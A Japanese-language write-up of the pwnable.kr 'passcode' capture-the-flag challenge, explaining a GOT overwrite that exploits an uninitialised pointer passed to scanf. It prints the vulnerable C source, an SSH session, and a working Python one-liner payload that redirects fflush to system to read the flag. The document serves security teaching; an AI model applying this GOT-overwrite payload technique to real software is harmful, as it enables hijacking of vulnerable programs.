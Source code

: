 # 内容
GOT overwiteの問題。BOFと同じ要領で行ける。
実際にプログラムを実行してみる

```bash
$ssh passcode@pwnable.kr -p2222
passcode@pwnable.kr's password:
 ____  __    __  ____    ____  ____   _        ___      __  _  ____
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87.kr@gmail.com
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Tue Jul 16 00:03:26 2019 from 118.238.217.72
passcode@prowl:~$ ls
flag  passcode  passcode.c
passcode@prowl:~$ cat flag
cat: flag: Permission denied
passcode@prowl:~$ ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : test
Welcome test!
enter passcode1 : test
enter passcode2 : checking...
Login Failed!
passcode@prowl:~$ cat passcode.c
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}

passcode@prowl:~$`
```

scanfの引数がアドレスではないため、失敗する模様。	でも、なぜsegmantation faultにならないのだろうか・・・。
いずれにしてもida proでディスアセンブリをしてみる。

# ディスアセンブリ
まず、login関数を見てみる。

![ida_login.PNG](figure/ida_login.PNG)

スタックは以下のように積まれていることが分かる。

![ida_login_stack.png](figure/ida_login_stack.png)

この時、stackに積まれているpasscodeの数値は初期化されていないことから、ランダム値が入ることが予想できる。
つまり、scanfはランダムのアドレスに値を書き込もうとしている。
図にすると以下のようになる。

![ida_login_scanf_1.png](figure/ida_login_scanf_1.png)

この状態では他のアドレス値の値を上書きしてしまうので、エラーになる。
しかし、任意のアドレスを指定することが出来れば、system関数を呼ぶことが出来る！(これが重要)。
つまり、passcodeの値を何とかして書き換えればよい。

# どこのアドレスを書き換えるのか
passcodeの値の指定前に、どこのアドレスのデータを書き換えるとsystemが呼べるようになるか考える。
ここで重要になってくるのがGOT(global offset table)。

* GOT(Global Offset Table)
  * 動的関数のエントリポイントを持つ配列。実際の関数のアドレスを管理する。これにより、動的関数(soファイル的な？)を使用するプログラムのアドレス配置が容易になる。

* PLT(Procedure Linkage Table)
  * GOTの場所を参照しているテーブル。なんで必要なのかは知らん。情弱ですまん。

動的な関数とはprintfや、scanf,puts等になる。なぜならこれらの関数はlibc.soから呼ばれているから。
例として、fflush関数が最終的にどのように呼ばれるか追ってみる。

![fflush_3.png](figure/fflush_3.png)

![ida_system3.png](figure/ida_system3.png)

pltはjmp命令でgotに飛んでいるため、gotで参照しているデータの値をsystem関数が呼ばれている一個前あたりのアドレスにすればよい。
今回の場合、login関数ではscanf実行後、fflushをしている。
このことと、GOTの特性を考えると、GOTのfflushのデータ値にsysytem関数が呼ばれているひとつ前のアドレス値(mov dword ptr [esp]～ってところね)を上書きすれば、system関数に飛ぶことが出来る
* ※jmpを二回しているように見えるが(plt→got→実際の関数のアドレス)、pltに指定している値は”[アドレス]”になるので、jmp命令はアドレスの中のデータ値を見ていることになる。そのため、GOTのデータを書き換えると、ほかの場所に飛ぶことが出来る。

# passcode1の初期化方法
scanfでアドレスのデータを上書きするにしても、passcodeの変数を初期化できなければ意味がない。
しかし、passcode1をlogin関数内で変更することは、一番最初のスタックの図から見ても厳しいことが分かる(passocde1が一番上に積まれているので、上から下に行くスタックでは書き換えることが出来ない)。

そこで、loginの前のwelcom関数のscanf入力から何とかしてpasscode1を初期化する。
これがなぜできるかと言うと、スタックの値は関数が終了しても初期化されないから。c言語だと局所変数は関数が終了した時点でメモリから消えると言われているが(確かそう)、実際のアセンブラを見ると、データはスタック上に残っていることが分かる。

そのことについて、以下に図を示した。

![welcom_stack.png](figure/welcom_stack.png)

![overwrite_2.png](figure/overwrite_2.png)

# 結論
先ほど話した理由から以下のフローで動作することが分かる。
1. 96文字適当な文字を入れる
2. 続いて、fflushのアドレスを入れることで、passcode1の値を初期化する
3. 続いてsysytem関数の一個前のアドレスを入れることで、scanfでfflushのデータを書き換える

では、実際にやってみる。
* 注意　：　scanfで入力するときはint型なため、最後は10進数で入力する。
* 注意2　：　enter passcode1が最後に出力されているのはprintfのバッファーの問題らしい。printfは文字を出力するとき、改行文字が出るまでバッファーに貯めるらしい？よくわからない。詳しくは"printf fflush"などで調べると出てくる。
```bash
$ python -c "print 'A'*96 +'\x04\xa0\x04\x08'+'134514147'" | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```

flagゲット。    
